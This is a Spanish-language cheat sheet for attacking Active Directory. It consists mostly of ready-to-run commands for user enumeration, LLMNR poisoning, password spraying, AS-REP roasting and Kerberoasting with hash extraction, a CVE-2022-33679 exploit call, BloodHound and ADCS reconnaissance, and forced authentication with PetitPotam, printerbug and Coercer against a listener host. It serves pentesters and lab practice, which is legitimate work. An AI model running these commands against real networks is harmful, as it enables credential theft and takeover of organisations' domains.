

# Enumeracion de Active Directory

Inspired by [Orange Cyberdefense](https://orange-cyberdefense.github.io/ocd-mindmaps/):



## Reconocimiento

### Enumerar AD

```bash
nslookup -type=SRV _ldap._tcp.dc._msdcs.alux.cc
```

### Enumerar SMBs

```bash
crackmapexec smb <ip_range>
```

## Enumeracion de Usuarios

### Null session

```bash
rpcclient -U "" -N $ip
crackmapexec smb $ip --users
net rpc group members 'Domain Users' -W 'alux.cc' -I $ip -u '%'
enum4linux -U $ip | grep 'user:'
```

### OSINT | Username Anarchy | Kerbrute (Pendiente)

https://github.com/urbanadventurer/username-anarchy

```bash
kerbrute userenum -d alux.cc usernames.txt
```

## Poisoning

### Linux

```bash
sudo responder -I tun0
```


### Windows

https://github.com/Kevin-Robertson/Inveigh

```cmd
.\Inveigh.exe
```

## Valid Username

### Password Spraying

```bash
crackmapexec smb -u usernames.txt -p Password123!
kerbrute passwordspray --user-as-pass --dc $ip -d alux.cc users.txt
use auxiliary/scanner/smb/smb_login
```

### ASREPRoast

#### Linux

```bash
impacket-GetNPUsers domain.com/ -request -format hashcat -dc-ip $ip -usersfile users.txt
```
#### Windows

```powershell
Get-DomainUser -PreauthNotRequired -verbose #List vuln users using PowerView
.\Rubeus.exe asreproast /format:hashcat /outfile:hashes.asreproast
```

#### ASREPRoast + CVE-2022-33679

[CVE-2022-33679](https://github.com/Bdenneu/CVE-2022-33679)

```bash
python3 CVE-2022-33679.py domain.com/user <SERVER NAME>
```


## Valid Credentials

### Bloodhound

#### Linux

```bash
bloodhound-python -c All -u user -p 'password' -d domain.com --zip -ns dcIp
certipy find -u user@domain.com -p 'password' -dc-ip DCIP -bloodhound
```
> Si da error con `-c All` lo mejor sera usar solo DCOnly

and import this to [bloodhound ly4k version](https://github.com/ly4k/BloodHound)

```bash
./BloodHound  --no-sandbox --disable-dev-shm-usage
```

#### Windows

[SharpHound](https://github.com/BloodHoundAD/SharpHound)

```powershell
.\sharphound.exe -c All -d domain.com
```

### Kerberoasting

```bash
GetUserSPNs.py -request -dc-ip <DCIP> domain.com/username -outputfile hashes.kerberoast
GetUserSPNs.py -request -dc-ip <DCIP> -hashes <LMHASH>:<NTHASH> <DOMAIN>/<USERNAME> -outputfile hashes.kerberoast
```

### ADCS

```bash
certipy find -u user@domain.com -p 'pass' -vulnerable -dc-ip DCIP -stdout > certipy_output.txt
```

### Enum shares

```bash
crackmapexec smb smb.txt -u 'user' -p 'pass' --shares
```

### Enum dns

[dnstool.py](https://github.com/dirkjanm/krbrelayx/blob/master/dnstool.py)
[adidnsdump](https://github.com/dirkjanm/adidnsdump)
```bash
python3 dnstool.py -u 'domain.com\username' -p 'password' --record '*' --action query DCIP
adidnsdump -u 'domain.com\username' -p 'password' pc.domain.com
```

### Coerce

> Iniciar listener antes 

[Coercer.py](https://github.com/p0dalirius/Coercer)
[PetitPotam.py](https://github.com/topotam/PetitPotam)
[printerbug.py](https://github.com/dirkjanm/krbrelayx/)

```bash
python3 rpcdump.py domain.com/username:Password@target | grep MS-RPRN
#Protocol: [MS-RPRN]: Print System Remote Protocol 
python3 printerbug.py domain.com/username:'Password'@targetIP listenerIP
#Authenticate to other machines via MS-EFSRPC EfsRpcOpenFileRaw or other functions
python3 PetitPotam.py -u 'username' -p 'password' -d 'domain.com' listenerIP targetIP
#Automatically coerce a Windows server to authenticate on an arbitrary machine through many methods
python3 Coercer.py coerce -u 'username' -p 'password' -d 'domain.com' -t targetIP -l listenerIP --always-continue
```